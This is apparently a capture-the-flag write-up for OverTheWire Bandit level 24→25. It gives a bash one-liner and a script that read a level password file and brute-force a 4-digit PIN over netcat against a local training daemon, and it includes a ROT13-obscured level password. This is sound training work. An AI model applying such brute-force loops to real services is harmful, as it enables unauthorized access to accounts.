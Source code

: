 # Write-up: Bandit 24 → 25
**Date:** 2025-08-16

## Obfuscated password (ROT13) 
`vPv86ggG4XFAr1nezXvjoDAzO3LWC3d4`

## OBJECTIVE
> "A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
>
> You do not need to create new connections each time."

## PURPOSE

We must brute-force a **4-digit PIN (0000–9999)** over **a single TCP connection** to `localhost:30002`. Each attempt is exactly one line:
```
<bandit24_password> <4-digit_pin>
```
The daemon replies **“Wrong!”** for bad guesses and prints the **bandit25** password for the correct one.  
We’ll show two solutions that both keep **one connection** open:

- a **one-liner** that streams all guesses and filters out the “Wrong!” lines (simple, quick to type);
- a tiny **script** (clear, reusable, and saves a transcript).

Using **one** connection is faster and matches the level hint; `seq -w` zero-pads the PINs (`0000…9999`) so we don’t miss leading zeros; filtering with `grep -iv '^wrong'` isolates the single success line.

First, load the current level’s password in a variable:
```bash
pass=$(cat /etc/bandit_pass/bandit24)
```

**One-liner:**
```bash
{ for pin in $(seq -w 0000 9999); do echo "$pass $pin"; done; } \
| nc localhost 30002 | grep -iv '^wrong'
```

**Script (save, run, and keep a transcript):**
```bash
#!/usr/bin/env bash
# /tmp/brute_30002.sh — Bandit 24 → 25 over one connection

PASS="$(</etc/bandit_pass/bandit24)"
HOST=localhost
PORT=30002
OUT=/tmp/b25.out

{
  for pin in $(seq -w 0000 9999); do
    echo "$PASS $pin"
  done
} | nc "$HOST" "$PORT" | tee "$OUT"

grep -iv '^wrong' "$OUT"
```

> Note: If your `nc` is the GNU flavor and doesn’t close after stdin ends, add `-q 1` to the `nc` command.

## SOLUTIONS
- `pass=$(cat /etc/bandit_pass/bandit24)`
- **One-liner:**  
  `{ for pin in $(seq -w 0000 9999); do echo "$pass $pin"; done; } | nc localhost 30002 | grep -iv '^wrong'`
- **Script approach:**  
  - Create `/tmp/brute_30002.sh` with the script above  
  - `chmod +x /tmp/brute_30002.sh`  
  - `bash /tmp/brute_30002.sh`

---

Writeup author: **Jeremy Ray Jewell**  
[GitHub](https://github.com/jeremyrayjewell) • [LinkedIn](https://www.linkedin.com/in/jeremyrayjewell)

